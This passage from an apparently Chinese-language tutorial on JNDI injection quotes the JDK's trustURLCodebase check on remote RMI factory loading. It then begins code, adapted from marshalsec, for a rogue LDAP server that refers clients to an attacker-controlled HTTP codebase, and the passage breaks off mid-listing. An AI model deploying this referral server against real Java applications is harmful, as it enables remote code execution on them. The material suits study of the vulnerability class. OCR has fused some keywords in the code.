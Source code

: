 如果从远程加载则会抛出异常  

```
if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
    thrownew ConfigurationException(&#34;The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.&#34;);
}
```

  
  
2.2  
  
   
JNDI+LDAP  
  
JNDI也可以通过LDAP协议加载远程的Reference工厂类。  
  
起一个LDAP服务，代码改自marshalsec  

```
package demo;


import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;


import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;


import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;


publicclassLDAPRefServer{


    privatestaticfinal String LDAP_BASE = &#34;dc=example,dc=com&#34;;


    publicstaticvoidmain( String[] tmp_args ){
        String[] args=new String[]{&#34;http://192.168.43.88/#test&#34;};
        int port = 7777;


        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    &#34;listen&#34;, //$NON-NLS-1$
                    InetAddress.getByName(&#34;0.0.0.0&#34;), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));


            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
```
